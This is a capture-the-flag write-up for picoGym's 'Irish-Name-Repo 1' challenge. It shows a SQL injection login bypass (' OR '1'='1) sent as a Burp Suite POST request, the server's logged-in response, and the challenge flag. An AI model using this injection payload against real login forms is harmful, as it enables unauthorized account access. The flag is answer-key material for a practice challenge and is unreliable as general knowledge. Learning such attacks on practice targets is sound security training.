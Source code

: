 # picoGym Level 80: Irish-Name-Repo 1
Source: https://play.picoctf.org/practice/challenge/80

## Goal
There is a website running at https://jupiter.challenges.picoctf.org/problem/39720/ or<br>
http://jupiter.challenges.picoctf.org:39720<br>
Do you think you can log us in? Try to see if you can login!

## What I learned
```
SQL Injection
```             

## Solution
```
https://webshell.picoctf.org/

ChatGPT SQL Injection Code: ' OR '1'='1 👀

# Burp Suite
POST /login.php HTTP/1.1
Host: jupiter.challenges.picoctf.org:39720
Content-Length: 53
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://jupiter.challenges.picoctf.org:39720
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://jupiter.challenges.picoctf.org:39720/login.html
Accept-Encoding: gzip, deflate, br
Cookie: _ga=GA1.2.647513796.1755785140; _ga_L6FT52K063=GS2.2.s1755785141$o1$g1$t1755785333$j60$l0$h844368113
Connection: keep-alive

username=admin&password=%27+OR+%271%27%3D%271&debug=0

# Forward
HTTP/1.1 200 OK
Content-type: text/html; charset=UTF-8

<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_c218b685}</p> 🔐
```

## Flag
picoCTF{s0m3_SQL_c218b685}

## Continue
[Continue](./picoGym0059.md)